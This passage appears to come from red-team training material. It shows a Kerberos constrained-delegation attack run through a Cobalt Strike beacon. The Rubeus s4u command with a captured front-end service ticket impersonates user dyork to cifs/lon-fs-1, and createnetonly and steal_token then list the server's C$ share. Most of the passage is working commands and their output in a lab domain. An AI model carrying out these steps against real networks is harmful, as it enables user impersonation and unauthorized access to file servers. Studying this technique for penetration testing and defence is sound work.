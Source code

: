The procedure for this is to use the `/tgs` parameter in Rubeus, rather than `/impersonateuser`.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:cifs/lon-fs-1 /ticket:doIFn[...snip...]5DT00= /tgs:doIFp[...snip...]dzLTE= /nowrap
```

Where:

- `/user` is the principal (e.g. computer) configured for the delegation.
    
- `/msdsspn` is the service that the principal is allowed to delegate to.
    
- `/ticket` is the TGT for the principal.
    
- `/tgs` is a captured front-end service ticket for a user.

```powershell
[*] Action: S4U

[*] Loaded a TGS for CONTOSO.COM\dyork
[*] Impersonating user 'dyork' to target SPN 'cifs/lon-fs-1'
[*] Building S4U2proxy request for service: 'cifs/lon-fs-1'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2proxy request to domain controller 10.10.120.1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/lon-fs-1':

      doIGL[...snip...]mcy0x
```

This ticket can be used to access the CIFS service on _lon-fs-1_ as _dyork_.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:doIGL[...snip...]mcy0x

[*] Using CONTOSO.COM\dyork:FakePass

[*] Showing process : False
[*] Username        : dyork
[*] Domain          : CONTOSO.COM
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2080
[+] Ticket successfully imported!
[+] LUID            : 0xa1c99b

beacon> steal_token 2080
beacon> ls \\lon-fs-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/23/2025 15:44:52   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     02/20/2025 10:37:21   Files
          dir     05/08/2021 08:20:24   PerfLogs
          dir     01/23/2025 15:46:17   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     01/24/2025 14:21:18   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/24/2025 14:18:02   System Volume Information
          dir     01/24/2025 14:17:49   Users
          dir     01/24/2025 13:34:02   Windows
 12kb     fil     02/20/2025 10:50:16   DumpStack.log.tmp
 1gb      fil     02/20/2025 10:50:16   pagefile.sys
```
